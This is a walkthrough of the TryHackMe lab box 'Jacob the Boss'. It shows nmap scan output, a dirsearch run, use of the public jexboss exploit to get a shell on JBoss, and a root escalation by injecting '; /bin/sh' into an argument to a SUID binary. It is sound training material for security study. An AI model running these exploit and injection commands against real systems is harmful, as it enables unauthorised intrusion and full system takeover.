

In this walkthrough, we'll go over a challenge (intermediate) level box called ***Jacob*** on [TryHackMe](https://tryhackme.com/room/jacobtheboss) 


Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.99.57 --open
```
We see that a bunch of ports are open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-22 19:44 EDT
Nmap scan report for jacobtheboss.box (10.10.99.57)
Host is up (0.21s latency).
Not shown: 65515 closed ports
PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:ca:13:6e:d9:63:c0:5f:4a:23:a5:a5:a5:10:3c:7f (RSA)
|   256 a4:6e:d2:5d:0d:36:2e:73:2f:1d:52:9c:e5:8a:7b:04 (ECDSA)
|_  256 6f:54:a6:5e:ba:5b:ad:cc:87:ee:d3:a8:d5:e0:aa:2a (ED25519)
80/tcp    open  http         Apache httpd 2.4.6 ((CentOS) PHP/7.3.20)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.20
|_http-title: My first blog
111/tcp   open  rpcbind      2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
1090/tcp  open  java-rmi     Java RMI
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1098/tcp  open  java-rmi     Java RMI
1099/tcp  open  java-object  Java Object Serialization
| fingerprint-strings: 
|   NULL: 
|     java.rmi.MarshalledObject|
|     hash[
|     locBytest
|     objBytesq
|     http://jacobtheboss.box:8083/q
|     org.jnp.server.NamingServer_Stub
|     java.rmi.server.RemoteStub
|     java.rmi.server.RemoteObject
|     xpw;
|     UnicastRef2
|_    jacobtheboss.box
3306/tcp  open  mysql        MariaDB (unauthorized)
3873/tcp  open  java-object  Java Object Serialization
4444/tcp  open  java-rmi     Java RMI
4445/tcp  open  java-object  Java Object Serialization
4446/tcp  open  java-object  Java Object Serialization
4457/tcp  open  tandem-print Sharp printer tandem printing
4712/tcp  open  msdtc        Microsoft Distributed Transaction Coordinator (error)
4713/tcp  open  pulseaudio?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|_    8695
8009/tcp  open  ajp13        Apache Jserv (Protocol v1.3)
| ajp-methods: 
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http         Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE TRACE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Welcome to JBoss&trade;
8083/tcp  open  http         JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
29981/tcp open  unknown
34453/tcp open  unknown
34759/tcp open  java-rmi     Java RMI
5 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port1099-TCP:V=7.91%I=7%D=6/22%Time=60D280B9%P=x86_64-pc-linux-gnu%r(NU
SF:LL,16F,"\xac\xed\0\x05sr\0\x19java\.rmi\.MarshalledObject\|\xbd\x1e\x97
SF:\xedc\xfc>\x02\0\x03I\0\x04hash\[\0\x08locBytest\0\x02\[B\[\0\x08objByt
SF:esq\0~\0\x01xp\x8d\xf3\r\xfaur\0\x02\[B\xac\xf3\x17\xf8\x06\x08T\xe0\x0
SF:2\0\0xp\0\0\0\.\xac\xed\0\x05t\0\x1dhttp://jacobtheboss\.box:8083/q\0~\
SF:0\0q\0~\0\0uq\0~\0\x03\0\0\0\xc7\xac\xed\0\x05sr\0\x20org\.jnp\.server\
SF:.NamingServer_Stub\0\0\0\0\0\0\0\x02\x02\0\0xr\0\x1ajava\.rmi\.server\.
SF:RemoteStub\xe9\xfe\xdc\xc9\x8b\xe1e\x1a\x02\0\0xr\0\x1cjava\.rmi\.serve
SF:r\.RemoteObject\xd3a\xb4\x91\x0ca3\x1e\x03\0\0xpw;\0\x0bUnicastRef2\0\0
SF:\x10jacobtheboss\.box\0\0\x04J\0\0\0\0\0\0\0\0\xe6jxK\0\0\x01z6\x1b\x12
SF:\x0c\x80\0\0x");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port3873-TCP:V=7.91%I=7%D=6/22%Time=60D280BF%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4,"\xac\xed\0\x05");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port4445-TCP:V=7.91%I=7%D=6/22%Time=60D280BF%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4,"\xac\xed\0\x05");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port4446-TCP:V=7.91%I=7%D=6/22%Time=60D280BF%P=x86_64-pc-linux-gnu%r(NU
SF:LL,4,"\xac\xed\0\x05");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port4713-TCP:V=7.91%I=7%D=6/22%Time=60D280BF%P=x86_64-pc-linux-gnu%r(NU
SF:LL,5,"8695\n")%r(GenericLines,5,"8695\n")%r(GetRequest,5,"8695\n")%r(HT
SF:TPOptions,5,"8695\n")%r(RTSPRequest,5,"8695\n")%r(RPCCheck,5,"8695\n")%
SF:r(DNSVersionBindReqTCP,5,"8695\n")%r(DNSStatusRequestTCP,5,"8695\n")%r(
SF:Help,5,"8695\n")%r(SSLSessionReq,5,"8695\n")%r(TerminalServerCookie,5,"
SF:8695\n")%r(TLSSessionReq,5,"8695\n")%r(Kerberos,5,"8695\n")%r(SMBProgNe
SF:g,5,"8695\n")%r(X11Probe,5,"8695\n")%r(FourOhFourRequest,5,"8695\n")%r(
SF:LPDString,5,"8695\n")%r(LDAPSearchReq,5,"8695\n")%r(LDAPBindReq,5,"8695
SF:\n")%r(SIPOptions,5,"8695\n")%r(LANDesk-RC,5,"8695\n")%r(TerminalServer
SF:,5,"8695\n")%r(NCP,5,"8695\n")%r(NotesRPC,5,"8695\n")%r(JavaRMI,5,"8695
SF:\n")%r(WMSRequest,5,"8695\n")%r(oracle-tns,5,"8695\n")%r(ms-sql-s,5,"86
SF:95\n")%r(afp,5,"8695\n")%r(giop,5,"8695\n");
Service Info: OS: Windows; Device: printer; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2947.54 seconds
```


If we run dirsearch on port 8080, we can see that there is a directory called "web-console" `dirsearch -u http://jacobtheboss.box:8080 -r -f -t 50 -x 302,400,403,500,503 -w /usr/share/wordlists/dirb/big.txt`


After looking at the results, we can visit http://jacobtheboss.box:8080/web-console/ and find the version of JBoss:


There is an exploit for [JBoss version 5.0 on GitHub](https://github.com/joaomatosf/jexboss)
After running the exploit as follows `python jexboss.py -u http://jacobtheboss.box:8080` we are able to get a shell back:


If we run linpeas and we can find the below two important findings:

1 - Binary Process Permissions:


2 - MySQL root login with no password:


3 - SUID:



Unfortunately, the first two won't lead mus to anywhere and we can inspect the pingsys binary, and strings command reveals that it was setting "UID":


Finally, we then run the following command to escalate privileges `/usr/bin/pingsys '127.0.0.1; /bin/sh'` and we are able to get a root shell:


I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
